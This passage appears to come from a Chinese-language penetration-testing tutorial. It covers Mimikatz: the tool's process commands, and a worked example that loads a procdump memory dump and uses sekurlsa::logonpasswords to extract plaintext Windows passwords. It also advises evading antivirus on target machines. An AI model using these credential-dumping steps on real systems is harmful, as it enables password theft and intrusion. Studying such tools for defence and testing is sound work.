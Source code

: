 -   **process 模块**

```plain
mimikatz # process::start command     启动进程
mimikatz # process::stop command      结束进程
mimikatz # process::list       列出进程
```

> Mimikatz 因为效果太好导致会被杀毒警报，若是想在⽬标机器运⾏先考虑是否需要对 Mimikatz 做免杀处理。

#### 2、简单使用

Mimikatz 能够从内存中提取纯⽂本密码，通过参数 `sekurlsa::minidump` 载⼊刚才 procdump 获取的 dmp ⽂件后，就可以使⽤ `sekurlsa::logonpasswords full` 等命令，对密码进⾏读取。实现效果如下图：

```plain
mimikatz.exe
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full
```

[![](assets/1706958938-ea22ae80aefa4443726f57f3b3d66f4c.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172306087-939485858.png)
